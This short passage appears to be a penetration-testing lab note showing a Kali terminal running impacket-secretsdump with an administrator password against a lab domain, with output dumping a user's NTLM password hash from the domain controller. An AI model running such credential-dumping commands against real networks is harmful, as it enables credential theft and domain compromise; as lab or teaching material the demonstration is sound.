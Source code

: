 ### impacket - Secretsdump

	┌──(kali㉿kali)-[~]
	└─$ /usr/bin/impacket-secretsdump -just-dc-ntlm valhalla.local/administrator:Pass123\!@valhalla.local -just-dc-user testuser
	Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

	[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
	[*] Using the DRSUAPI method to get NTDS.DIT secrets
	valhalla.local\testuser:2117:aad3b435b51404eeaad3b435b51404ee:c718f548c75062ada93250db208d3178:::
	[*] Cleaning up... 
